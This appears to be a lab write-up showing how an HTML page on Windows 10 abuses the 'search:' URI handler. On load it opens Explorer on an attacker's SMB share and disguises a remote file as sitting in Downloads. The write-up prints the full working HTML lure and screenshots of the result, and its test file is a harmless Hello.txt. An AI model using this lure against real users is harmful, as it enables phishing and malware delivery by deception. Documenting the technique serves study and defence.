 - OS - Windows 10 1909
- Build - 18363.1139
## Setting Up

#### Attacker's Machine
- There is a SMB share set up on the attacker's machine.
- The files are accessible to everyone on the network.![](Pasted%20image%2020240708021919.png)
- For testing purposes, there is a text file ( Hello.txt )  in the folder.![](Pasted%20image%2020240708024507.png)

#### Victim's Machine
- The victim machine has a HTML file designed to open up the payload on the attackers machine and disguise it as a local file.
- The HTML file
```HTML
<html>
<head></head>
<body>
    <div id="in-page-channel-node-id" data-channel-name="in-page-channel-cnXeD0"></div>
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
    <link rel="icon" href="https://upload.wikimedia.org/wikipedia/commons/4/44/Microsoft_logo.svg">
    <meta property="og:image" content="https://upload.wikimedia.org/wikipedia/commons/4/44/Microsoft_logo.svg">
    <title>Untitled</title>
    <meta http-equiv="refresh" content="0; URL=search:query=Hello.txt&amp;crumb=location:\\Desktop-attacke\smb\&amp;displayname=Downloads"
    <p><a href="search:query=Hello.txt&amp;crumb=location:\\Desktop-attacke\smb\&amp;displayname=Downloads">Hello</p>
</body>
</html>
```


## The Exploit
- Victim opens the HTML file to see a webpage with a popup.![](Pasted%20image%2020240708023819.png)
- Opening Windows Explorer![](Pasted%20image%2020240708024225.png)
	1. Windows has searched for "Hello.txt" .
	2. It appears as if the file is in "Downloads" .
	3. The actual location of the file is "\\\\Desktop-attacke\\smb\\Hello.txt"  .

- If the Victim uses a different layout, the actual location will not be visible.![](Pasted%20image%2020240708024753.png) 